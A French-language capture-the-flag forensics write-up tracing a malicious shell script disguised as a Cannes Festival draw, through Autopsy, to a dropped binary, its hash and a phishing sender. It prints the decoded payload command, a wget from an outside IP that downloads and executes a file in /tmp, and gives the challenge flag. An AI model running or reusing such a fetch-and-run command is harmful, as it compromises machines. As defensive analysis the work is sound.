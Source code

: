 ![Desc](images/desc.png)

# Writeup

Dans ce challenge, on nous fournit une copie du filesystem du PC infecté que l'on peut ouvrir avec Autopsy :

![fs](images/fs.png)

Il est indiqué que le groupe d'attaquants a utilisé le Festival de Cannes pour compromettre l'entreprise, en cherchant dans les dossiers, on trouve un script Shell `tirage_aux_sorts.sh` dans le fichier de téléchargement de l'utilisateur **cesar** qui parle du Festival.

Nous pouvons extraire pour analyse plus approfondi :

![shellscript](images/shellscript.png)

En ouvrant ce fichier dans Visual Studio Code, on se rend compte qu'il fait 1000 lignes, bizarre pour un script qui n'est censé en faire qu'une trentaine ^^ :

![script](images/script.png)

![malcommand](images/malcommand.png)


En effet ce script est malveillant, voici la commande décodée qu'il exécute :

```
wget -q http://57.128.85.25:50098/_ -O /tmp/._ | bash && chmod +x /tmp/._ && /tmp/._
```

On inspecte donc le dossier /tmp pour voir si le fichier `._` est présent :

![tmp](images/tmpfolder.png)

L’exécutable est présent ainsi que par déduction son fichier de config, `config.bin`

On récupère le SHA-256 du malware :

```
[Jun 30, 2025 - 03:08:20 (CEST)] exegol-Shutlock tmp # sha256sum ._
66640c14f898c78a99757ab4460c635476dfeb9b3b65e8a57fb29202eefb9423  ._
[Jun 30, 2025 - 03:11:11 (CEST)] exegol-Shutlock tmp #
```

Il ne nous manque plus qu'à trouver l'email de l'attaquant, celui qui lui a envoyé le fichier `tirage_aux_sorts.sh`.

Grâce à Autopsy, un outil gratuit et formidable, on trouve l'origine de celui ci :

![mail](images/mail.png)

Ce fichier provient d'un spam de `star_wars_official@proton.me`

**Flag format :**

`SHLK{bc5945feb8bd26203ebfafea5ce1878bb2e32cb8fb50ab7ae395cfb1e1aaaef1:mail@domain.tld:/home/test/.dossier/fichier.xyz}`

**Flag**

`SHLK{66640c14f898c78a99757ab4460c635476dfeb9b3b65e8a57fb29202eefb9423:star_wars_official@proton.me:/tmp/config.bin}`
